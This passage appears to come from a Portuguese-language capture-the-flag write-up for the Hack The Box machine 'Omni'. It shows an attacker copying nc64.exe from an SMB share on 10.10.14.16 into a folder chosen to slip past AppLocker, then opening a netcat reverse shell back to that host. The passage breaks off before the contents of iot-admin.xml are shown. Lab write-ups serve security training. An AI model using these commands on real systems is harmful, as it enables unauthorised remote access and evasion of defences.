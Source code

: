 ![RCE website](Assets/HTB-Windows-Easy-omni/RCE_website.png)

Podemos executar commandos diretamente do Windows Device Portal, Mas é sempre melhor ter uma verdadeira reverse shell... Não sei porquê, mas não consegui executar o reverse shell diretamente do samba server, mas, ainda com a shell já aberta, podemos copiar o nc64.exe para uma pasta local. Eu escolho sempre o C:\Windows\System32\spool\drivers\color\ porque praticamente nunca está bloqueado (ver applocker bypass)

```powershell
# Ainda com o usuário omni
copy \\10.10.14.16\smbFolder\nc64.exe C:\Windows\System32\spool\drivers\color\nc64.exe

# Com o usuário app, a partir do website
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```

## User "app"

Na pasta raiz do usuário "app", podemos ver a flag user.txt, mas também vemos um outro ficheiro estranho: iot-admin.xml. O ficheiro contém o seguinte:
